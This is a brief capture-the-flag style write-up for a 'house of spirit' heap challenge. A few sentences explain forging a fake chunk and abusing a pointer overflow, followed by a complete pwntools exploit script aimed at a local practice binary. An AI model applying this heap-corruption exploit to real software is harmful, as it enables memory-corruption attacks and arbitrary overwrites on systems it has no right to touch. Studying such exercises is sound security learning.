

the 'user' age and username sandwich our target


as the binary contains no pie, and we got a free heap and libc leak, we can forge a valid fake chunk 



and because we can abuse an overflow bug to change the pointer of the malloc'ed chunk, we can free our fake chunk, and malloc it again to overwrite our target

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./house_of_spirit")

context.binary = exe
context.log_level="debug"

script='''
c   
'''

def main():
    # r=gdb.debug(exe.path, gdbscript = script)
    r = process(exe.path)

    # 0x602010
    
    r.recvuntil("heap @ 0x")
    data=r.recvline()
    data=data[:8]
    heap_base=int(data,16)

    r.recvuntil("Enter your age:")
    r.send(str(0x81).encode())

    r.recvuntil("Enter your username:")
    payload=flat(
        0,
        0,
        0x80,
        0x21,
        0,
        0,
        0,
        0x21
    )
    r.send(payload)

    r.recvuntil(">")
    r.sendline(str(1).encode())
    r.recvuntil("size:")
    r.sendline(str(0x36).encode())
    r.recvuntil("data:")
    r.send(b"\x36\x67")
    r.recvuntil("name:")
    r.send(flat(0,0x602020,0))

    r.recvuntil(">")
    r.sendline(str(2).encode())
    r.recvuntil("index:")
    r.send(str(0).encode())

    r.recvuntil(">")
    r.sendline(str(1).encode())
    r.recvuntil("size:")
    r.sendline(str(0x70).encode())
    r.recvuntil("data:")
    r.send(flat(b"\x36"*0x40,"PWNED",0))
    r.recvuntil("name:")
    r.send(b"\x36\x67")

    r.recvuntil(">")
    r.sendline(str(3).encode())

    r.interactive()


if __name__ == "__main__":
    main()

```